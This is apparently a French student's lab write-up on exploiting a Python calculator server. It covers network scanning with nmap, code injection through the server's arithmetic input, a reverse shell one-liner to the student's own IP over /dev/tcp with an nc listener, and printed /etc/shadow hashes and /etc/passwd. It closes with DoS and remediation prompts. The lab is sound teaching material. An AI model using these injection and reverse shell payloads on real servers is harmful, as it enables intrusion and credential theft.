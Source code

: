 # TP5 : Exploit, pwn, fix

## 1. Reconnaissance

🌞 **Déterminer**

Le client essaie de se co à l'IP : `10.1.2.12`
```
host = '10.1.2.12'  # IP du serveur
```

Le client essaie de se co au port : `13337`
```
port = 13337   # Port choisir par le serveur
```

J'utilise la commande `netstat` suivante : 
```
fmaxance@ZeyKiiPC:~$ sudo netstat -anp | grep python
tcp        0      1 10.33.73.20:44720       10.1.2.12:13337         SYN_SENT    9567/python3
```

Elle permet de chercher les connexions réseau actives générées par le script en se basant sur le programme ou le processus associé, ici python.

🌞 **Scanner le réseau**

```
fmaxance@ZeyKiiPC:~$ sudo nmap -n 110.33.64.0/20 -p13337 --open

Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-30 10:32 CET
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.33.66.165
Host is up (0.0043s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.037s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0043s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0066s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Unknown)

Nmap done: 4096 IP addresses (843 hosts up) scanned in 295.53 seconds
```

🦈 **tp5_nmap.pcapng**

[tp5_nmap.pcapng](tp5_nmap.pcapng)

🌞 **Connectez-vous au serveur**

On change l'ip et le port dans le `client.py`
L'application fonctionne comme une calculatrice, on peut rentrer des opérations arithmétiques et l'application renvoie le bon résultat.

## 2. Exploit

🌞 **Injecter du code serveur**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 client.py 
[sudo] password for fmaxance: 
Veuillez saisir une opération arithmétique : __import__('os').system('ping -c 1 10.33.73.20')
```

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**

  Dans mon shell j'execute : `sudo nc -lvnp 6969``

  Dans le client.py : 
  ```
  fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 client.py 
  [sudo] password for fmaxance: 
  Veuillez saisir une opération arithmétique :__import__('os').system('sh -i /dev/tcp/10.33.73.20/6969 0>&1')
  ```

🌞 **Pwn**

shadow :
```
cat /etc/shadow
root:$6$Ac2Zned208vSDVSn$wKuS7q/pIYPo90yin8zl6Ocxd/liQd4aCTnzQEwsTQ2feosGAovhMqxFR.oladVr3G8UbXf2/u.OzeDfWM4aq.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19621::::::
dbus:!!:19621::::::
tss:!!:19621::::::
sssd:!!:19621::::::
sshd:!!:19621::::::
systemd-oom:!*:19621::::::
it4:$6$bV62paDqH/ZQSVFb$jiBgcgpkuzmmoZSvvLPwpd4gjwvnKQEWTE119tMNTnICtMcJ6dyPcDCVaTur8j5UQFuxAAM6eTimGdr97Nagh1::0:99999:7:::
```

passwd :
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
systemd-oom:x:993:993:systemd Userspace OOM Killer:/:/usr/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
```

code serveur :
[serveur](serveur.py)

Les services disponibles sont ssh et le serveur en python :
```
ss -tupnl
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                             
tcp   LISTEN 2      1          10.0.3.15:13337      0.0.0.0:*    users:(("python3.9",pid=2312,fd=4))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=699,fd=3))      
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=699,fd=4))
```

## 4. Bonus : DOS

Le DOS dans l'esprit, souvent c'est :

- d'abord t'es un moldu et tu trouves ça incroyable
- tu deviens un tech, tu te rends compte que c'est pas forcément si compliqué, ptet tu essaies
- tu deviens meilleur et tu te dis que c'est super lame, c'est nul techniquement, ça mène à rien, exploit c'est mieux
- tu deviens conscient, et ptet que parfois, des situations t'amèneront à trouver finalement le principe pas si inutile (politique ? militantisme ?)

⭐ **BONUS : DOS l'application**

- faut que le service soit indispo, d'une façon ou d'une autre
- fais le crash, fais le sleep, fais le s'arrêter, peu importe

## II. Remédiation

🌞 **Proposer une remédiation dév**

- le code serveur ne doit pas exécuter n'importe quoi
- il faut préserver la fonctionnalité de l'outil

🌞 **Proposer une remédiation système**

- l'environnement dans lequel tourne le service est foireux (le user utilisé ?)
- la machine devrait bloquer les connexions sortantes (pas de reverse shell possible)
